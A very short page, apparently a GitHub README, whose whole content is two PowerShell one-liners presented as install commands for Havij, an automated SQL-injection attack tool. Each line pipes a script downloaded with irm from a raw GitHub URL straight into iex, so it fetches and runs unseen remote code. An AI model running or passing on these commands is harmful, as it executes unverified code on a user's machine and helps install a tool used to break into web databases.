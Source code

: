 ## Powershell command for havij
```powershell
irm https://raw.githubusercontent.com/sahmsec/Tools/main/Havij/lazy-install.ps1 | iex


irm https://raw.githubusercontent.com/sahmsec/Tools/main/Havij-1.2/lazy-install.ps1 | iex
